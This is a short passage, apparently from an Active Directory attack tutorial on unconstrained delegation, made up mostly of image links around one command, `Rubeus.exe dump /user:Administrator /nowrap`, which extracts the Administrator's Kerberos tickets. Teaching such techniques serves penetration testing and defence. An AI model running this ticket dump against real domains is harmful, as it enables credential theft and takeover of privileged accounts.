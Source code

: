 ![](/assets/images/active-directory/rubeus_uncontri.png)

So we can dump it with the dump option, `Rubeus.exe dump /user:Administrator /nowrap`

![](/assets/images/active-directory/rubeus_dumpun.png)
